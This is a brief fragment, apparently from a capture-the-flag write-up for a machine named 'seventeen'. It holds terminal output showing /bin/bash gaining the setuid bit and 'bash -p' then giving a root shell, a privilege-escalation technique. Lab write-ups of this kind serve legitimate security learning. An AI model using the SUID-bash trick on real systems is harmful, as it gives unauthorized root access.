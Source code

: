 ```shell
kavi@seventeen:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
kavi@seventeen:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
kavi@seventeen:~$ bash -p
bash-4.4# whoami
root
```
